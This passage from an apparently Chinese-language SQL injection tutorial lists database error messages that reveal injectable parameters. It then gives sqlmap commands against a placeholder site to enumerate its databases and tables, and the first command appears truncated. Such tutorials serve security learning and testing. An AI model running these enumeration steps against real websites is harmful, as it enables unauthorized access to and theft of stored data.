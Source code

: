 ```
Warning: mysql_fetch_array(): supplied argument is not a valid MySQL result resource in /var/www/myawesomestore.com/buystuff.php on line 12

Error: You have an error in your SQL syntax: check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’’ at line 12

```

Oracle Errors

```
java.sql.SQLException: ORA-00933: SQL command not properly ended at oracle.jdbc.dbaaccess.DBError.throwSqlException(DBError.java:180) at oracle.jdbc.ttc7.TTIoer.processError(TTIoer.java:208)

Error: SQLExceptionjava.sql.SQLException: ORA-01756: quoted string not properly terminated

```

PostgreSQL Errors

```
Query failed: ERROR: unterminated quoted string at or near “‘’’”

```

0x02 列出DBMS数据库
--------------

* * *

正如上图你看到的，我找到了一个存在SQL注入点的网站。现在我需要列出所有的数据库（有时这也称为枚举列数）。因为我一直在使用SQLMAP，它会告诉我哪个存在漏洞。

运行下面的命令，参数是你找到的存在注入点的网址：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 --

```

我们现在看到两个数据库，其中的information_schema是几乎所有MySQL数据库默认的标准数据库，所以我们的兴趣主要在sqldummywebsite数据库上。

这里的参数：

```
sqlmap：SQLMAP可执行文件的名称，也可使用python sqlmap.py来替代
-u：目标URL
--dbs：枚举DBMS数据库

```

0x03 列出目标数据库的表
--------------

* * *

现在我们需要知道在数据库sqldummywebsite中都有哪些表，为了弄清这些信息，我们使用下面的命令：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite --tables

```
